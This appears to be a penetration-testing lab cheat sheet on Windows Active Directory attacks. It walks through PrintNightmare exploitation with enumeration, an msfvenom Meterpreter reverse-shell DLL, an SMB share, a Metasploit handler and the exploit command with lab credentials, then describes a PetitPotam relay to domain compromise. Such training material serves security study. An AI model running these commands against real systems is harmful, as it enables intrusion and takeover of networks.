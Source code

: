 `PrintNightmare` is the nickname given to two vulnerabilities ([CVE-2021-34527](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-34527) and [CVE-2021-1675](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-1675)) found in the [Print Spooler service](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-prsod/7262f540-dd18-46a3-b645-8ea9b59753dc) that runs on all Windows operating systems. Many exploits have been written based on these vulnerabilities that allow for privilege escalation and remote code execution.

Exploit: [https://github.com/cube0x0/CVE-2021-1675](https://github.com/cube0x0/CVE-2021-1675)

Enumerating for MS-RPRN
```shell
rpcdump.py @172.16.5.5 | egrep 'MS-RPRN|MS-PAR'
```

Generating a DLL Payload
```shell
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=172.16.5.225 LPORT=8080 -f dll > backupscript.dll
```

Creating a Share with smbserver.py
```shell
sudo smbserver.py -smb2support CompData /path/to/backupscript.dll
```

Configuring & Starting MSF multi/handler
```shell
[msf](Jobs:0 Agents:0) >> use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
[msf](Jobs:0 Agents:0) exploit(multi/handler) >> set PAYLOAD windows/x64/meterpreter/reverse_tcp
PAYLOAD => windows/x64/meterpreter/reverse_tcp
[msf](Jobs:0 Agents:0) exploit(multi/handler) >> set LHOST 172.16.5.225
LHOST => 10.3.88.114
[msf](Jobs:0 Agents:0) exploit(multi/handler) >> set LPORT 8080
LPORT => 8080
[msf](Jobs:0 Agents:0) exploit(multi/handler) >> run

[*] Started reverse TCP handler on 172.16.5.225:8080 
```

Running the Exploit
```shell
sudo python3 CVE-2021-1675.py inlanefreight.local/forend:Klmcargo2@172.16.5.5 '\\172.16.5.225\CompData\backupscript.dll'
```

## PetitPotam (MS-EFSRPC)

PetitPotam ([CVE-2021-36942](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-36942)) is an LSA spoofing vulnerability that was patched in August of 2021. The flaw allows an unauthenticated attacker to coerce a Domain Controller to authenticate against another host using NTLM over port 445 via the [Local Security Authority Remote Protocol (LSARPC)](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-lsad/1b5471ef-4c33-4a91-b079-dfcbb82f05cc) by abusing Microsoft’s [Encrypting File System Remote Protocol (MS-EFSRPC)](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/08796ba8-01c8-4872-9221-1000ec2eff31). This technique allows an unauthenticated attacker to take over a Windows domain where [Active Directory Certificate Services (AD CS)](https://docs.microsoft.com/en-us/learn/modules/implement-manage-active-directory-certificate-services/2-explore-fundamentals-of-pki-ad-cs) is in use. In the attack, an authentication request from the targeted Domain Controller is relayed to the Certificate Authority (CA) host's Web Enrollment page and makes a Certificate Signing Request (CSR) for a new digital certificate. This certificate can then be used with a tool such as `Rubeus` or `gettgtpkinit.py` from [PKINITtools](https://github.com/dirkjanm/PKINITtools) to request a TGT for the Domain Controller, which can then be used to achieve domain compromise via a DCSync attack.
